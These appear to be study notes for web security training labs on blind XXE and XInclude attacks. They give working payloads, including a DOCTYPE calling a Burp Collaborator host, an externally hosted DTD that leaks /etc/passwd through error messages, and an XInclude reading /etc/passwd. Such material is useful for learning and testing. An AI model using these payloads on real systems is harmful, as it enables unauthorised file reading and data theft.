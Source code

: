   

Lab 04: Blind XXE with out-of-band interaction via XML parameter entities

- Does not display any unexpected values, and blocks requests containing regular external entities.

- Use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Attack:

- Insert external entity definition in between the XML declaration and the `stockCheck` element.

- Insert a Burp Collaborator subdomain where indicated.

```

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>

```

- You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

  

Lab 05: Exploiting blind XXE to retrieve data via error messages

- Intercepting the **POST** request, and inserting in between XML declaration.

```

        <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a0a000b04c87262815ba1d301be00ae.exploit-server.net/exploit.dtd"> %xxe;]>

```

- Body of server

```

<!ENTITY % file SYSTEM "file:///etc/passwd">

<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">

%eval;

%exfil;

```

  

- Error message containing the contents of the `/etc/passwd` file.

  

Lab 06: Exploiting XInclude to retrieve files

- Check stock and send the POST request to repeater.

- Replace the productId as

```

<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>

```

